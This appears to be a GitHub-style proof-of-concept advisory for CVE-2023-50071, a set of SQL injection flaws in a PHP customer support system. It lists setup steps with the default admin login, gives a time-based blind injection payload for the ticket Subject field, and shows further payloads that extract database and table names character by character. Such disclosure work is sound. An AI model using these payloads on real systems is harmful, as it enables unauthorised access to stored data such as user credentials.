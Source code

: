## CVE-2023-50071 - Multiple SQL Injection 

Ref: https://www.exploit-db.com/exploits/51862

#### Exploit Author: Geraldo Alcantara

### Vendor Homepage:
https://www.sourcecodester.com/php/14587/customer-support-system-using-phpmysqli-source-code.html

### Software Link:
https://www.sourcecodester.com/download-code?nid=14587&title=Customer+Support+System+using+PHP%2FMySQLi+with+Source+Code

### Setup:
- Downloaded the software from the provided link.
- Install XAMPP and start the MySQL and Apache servers.
- Create new database, name it `css_db`. Imported the database file provided in the software. (`database/css_db.sql`)
    ![Pic 1](./Assets/23-50071-1.png)
- Opened the software in a web browser and logged in as an admin user.
  - user: `admin`
  - pass: `admin123`
  - type: `admin`

### Exploit PoC:
- Login as an admin user.
- Navigate to `Ticket` section.
- Click on `Add New` button.
- Enter the following values:
  - Subject: `test'+(select*from(select(sleep(5)))a)+'`
  - Customer: any value
  - Department: any value
  - Description: any value
- Click on `Save` button.

![Pic 1](./Assets/23-50071-2.png)

You will see that the page will take 5 seconds to load, when other requests are being processed normally. This is due to the SQL injection vulnerability.

### Impact:

Further SQL injection attacks can be done is:
- Data Extraction via Timing (Blind SQL Injection):
  - Check the number of tables in the css_db database.
  - Extract each table name by iterating over their characters.
  - For each table, check the number of columns.
  - Extract the names of each column in the table.
  - Extract the data from the columns, such as usernames and passwords.

Example:
- `' OR (IF(SUBSTRING((SELECT database()),1,1)='m', SLEEP(5), 0))-- `
  - This will check if the first character of the database name is 'm', and if it is, it will sleep for 5 seconds. This will allow the attacker to extract the database name, which can be used for further attacks.

- Retrieving Table Names: Once the databases are identified, the attacker can use a similar technique to extract table names from information_schema.tables.
  - `' OR IF((SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema='css_db')=5, SLEEP(5), 0)-- `  ~ This query will help determine how many tables exist in the css_db database.
  - Extract table names character by character: `' OR IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='css_db' LIMIT 0,1),1,1)='a', SLEEP(5), 0)-- `